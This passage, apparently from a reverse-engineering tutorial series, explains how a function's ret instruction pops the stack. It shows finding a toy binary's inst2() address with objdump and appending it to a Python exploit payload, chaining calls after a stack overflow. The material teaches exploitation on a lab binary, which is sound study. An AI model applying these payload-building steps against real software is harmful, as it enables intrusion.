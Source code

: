 	```

* When ```func()```'s **ret** is executed, the control goes to address on top of stack. Note that, when a **ret** is executed, the stack is popped. So, after **ret** is executed, the stack looks like this. 

    ```
    |    Some crap      | <----- rsp
    |                   |
    |                   |
    |                   |
    |                   |
    ```
* Now, ```inst1()``` gets executed. As it is a function, it has a **ret** instruction at the end. What happens when that gets executed?

* Control is passed to code at address **Some crap** :P . This would mostly end up in a SegFault because we don't know what is present. 

* Instead of having some crap there, we can have ```inst2()```'s address. This way, control is passed to ```inst2()```. 

* Let us find out ```inst2()```'s address. 

    ```
    rev_eng_series/post_17}=)> objdump -Mintel -d code2 | grep inst2
    0000000000400534 <inst2>:
    ```

* Let us write this in our exploit script. 

    ```python
    # inst2()'s address
    inst2_address = 0x0000000000400534
    # inst2()'s address in little-endian byte order
    # For 64-bit executables, 
    payload += struct.pack('<Q', inst2_address)

    # For 32-bit executables, 
    # payload += struct.pack('<I', inst2_address)
    ```

At this point, the stack looks like this. 
